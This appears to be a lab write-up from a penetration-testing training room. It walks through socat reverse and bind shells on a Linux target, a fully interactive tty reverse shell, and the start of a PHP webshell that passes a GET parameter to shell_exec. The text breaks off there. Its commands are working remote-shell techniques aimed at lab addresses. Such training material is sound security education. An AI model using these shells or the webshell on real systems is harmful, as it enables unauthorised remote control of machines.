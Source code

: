 Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

**Create reverse shell and execute the bash process upon connection.**

1. Create reverse shell on target host.

socat TCP:10.10.52.172:1234 EXEC:”bash -li”

1. Create listener on attack host.

socat TCP-L:1234 -

1. Reverse shell caught by listener.

pwd

/home/shell

**Create bind shell and execute the bash process upon connection.**

1. Create listener on target host.

socat TCP-L:12345 EXEC:”bash -li”

1. Bind to listener from attack host.

socat TCP:10.10.62.10:12345 -

1. Bind shell caught by listener.

pwd

/home/shell

**Create fully stable reverse shell using socat special technique.**

1. Create listener on attack host.

socat TCP-L:1234 FILE:\`tty\`,raw,echo=0

1. Create tty reverse shell on target host.

socat TCP:10.10.108.143:1234 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane

1. Fully interactive session created.

pwd

/home/shell

whoami

shell

**Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.**

1. Create new php file in attacker’s terminal.

cat > /root/Desktop/windows-php-reverse-shell.php

1. Add text to file.

\<?php echo "\<pre>" . shell\_exec($\_GET\["cmd"]) . "\</pre>"; ?>
